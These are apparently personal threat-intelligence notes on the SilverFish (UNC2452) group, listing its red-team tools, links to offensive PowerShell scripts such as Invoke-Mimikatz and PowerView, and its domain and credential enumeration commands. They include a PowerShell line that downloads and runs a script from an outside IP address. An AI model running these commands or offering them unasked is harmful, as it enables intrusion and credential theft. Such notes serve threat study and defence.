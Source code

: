 # This is my notes about the SilverFish(UNC2452) Group


## The SilverFish Group uses publicly available red teaming tools such as Empire, cobalt strike, koadic loaders, and, in several cases PowerSploit and Mimikatz post exploitation Powershell scripts. Additionally, there are lots of specially crafted Powershell, BAT, CSPROJ, JavaScript and HTA files that are mainly used for enumeration and data exfiltration.

## TOOLS:

- https://github.com/zerosum0x0/koadic

- Besides the domain fronting method, the SilverFish group uses the ”mallable C2 profile”
features of Cobalt Strike. The following image shows the Cobalt Strike beacon shellcode
emulation results, fronted domain, and actual host value. The chosen mallable C2 profile [22]
artifacts can easily be identified.

- https://github.com/threatexpress/malleable-c2/blob/master/jquery-c2.4.3.profile

- msbuild.exe utility and .csproj files are frequently used to load shellcode in
red teaming engagements.

- https://www.powershellempire.com/

- https://github.com/gentilkiwi/mimikatz

- https://github.com/p3nt4/Invoke-SocksProxy


### Powershell Direct Links:

- raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
- raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1
- raw.githubusercontent.com/device33/PowerView.ps1/master/PowerView.ps1
- raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1


## Most Used Commands:

- nltest /dclist - > Lists all domain controllers in the domain.

- nltest /domain_trusts - > Returns a list of trusted domains

- cmdkey /list - > Displays the list of stored user names and credentials

- net group ”domain admins” /domain   - > Lists all domain controllers in the domain.

- dir c:\\programdata - > Prints the contents of ”programdata” directory (used for enumerating the installed software)

- powershell -nop -enc %Trimmed...% - > Executes the BASE64 encoded powershell 	command/script.


## Other basic commands: 

- dir \"c:\\program files\"
- dir \"c:\\program files (x86)\\\"
- dir \"c:\\ProgramData\\\"

- cmd \/c powershell -nop exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http:\/\/176.10.118.136:80\/pwrvw.ps1'); Droller -OperatingSystem *server* > c:\\ProgramData\\z_servers.txt


## some good resources:

https://docs.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps

https://attack.mitre.org/techniques/T1090/004/


## Reference: 

- https://www.prodaft.com/m/uploads/SilverFish_TLPWHITE.pdf








